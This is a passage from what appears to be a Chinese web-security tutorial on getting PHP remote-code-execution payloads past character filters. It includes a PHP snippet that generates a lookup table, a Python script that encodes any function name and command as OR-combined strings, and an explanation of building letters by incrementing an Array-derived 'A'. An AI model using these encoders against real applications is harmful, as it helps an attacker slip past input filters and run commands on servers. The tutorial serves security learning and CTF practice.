 ```python
    $c=(urldecode($a)|urldecode($b));
    if (ord($c)>=32&ord($c)<=126) {
    $contents=$contents.$c." ".$a." ".$b."\n";
    }
}
}
}
fwrite($myfile,$contents);
fclose($myfile);
```

然后和异或一样写脚本查找

```python
def action(arg):
    s1=""
    s2=""
    for i in arg:
        f=open("or_rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                # print(i)
                s1+=t[2:5]
                s2+=t[6:9]
                break
        f.close()
    output="(\""+s1+"\"|\""+s2+"\")"
    return(output)

while True:
    param=action(input("\n[+] your function: "))+action(input("[+] your command: "))
    print('\n',param)
```

#### 自增绕过

首先看文档，PHP中的自增有一个小特性。

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-20a855c70c63e8fb1193fca5082de7f8eb126f8e.png)

也就是说，`'a'++ => 'b'`，`'b'++ => 'c'`... 所以，我们只要能拿到一个变量，其值为`a`，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

**在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串**，其值为`Array`：

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e23e5184743cf049401dd1050db39f282d2b6ca8.png)

再取这个字符串的第一个字母，就可以获得'A'了。
